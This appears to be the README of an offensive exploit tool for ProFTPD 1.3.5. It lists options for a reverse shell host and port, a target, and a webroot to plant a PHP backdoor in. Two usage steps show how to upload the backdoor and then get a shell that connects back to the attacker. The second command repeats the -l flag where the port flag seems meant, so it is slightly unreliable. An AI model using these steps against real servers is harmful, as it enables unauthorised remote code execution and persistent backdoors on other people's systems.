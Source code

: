 # ProFTPD 1.3.5 File Upload to RCE exploit!


    ProFTPd 1.3.5 File Uploader
    Usage: ProFTPD.py [options]

    Options:
      -h, --help             show this help message and exit
      -l LHOST, --lhost=LHOST
                             Local IP Required for Reverse Shell,
      -p LPORT, --lport=LPORT
                             Port Required for Reverse Shell,
      -t TARGET, --target=TARGET
                             Vulnerable Target,
      -d DIRECTORY, --dir=DIRECTORY
                             WebRoot directory to Upload Backdoor,  Default: /var/www/html
      -c COMMAND, --command=COMMAND
                             System Command,
      -f FILE, --file=FILE  
                             Backdoor Name,  Default: shell.php
      -s SHELL, --shell=SHELL
                             ReverShell Name.
                                          
      




STEP 1 - Upload Backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -d '/var/www/html'

STEP 2 - Get Shell! mere commodity! you can always curl your backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -l 172.x.x.x -l 4242

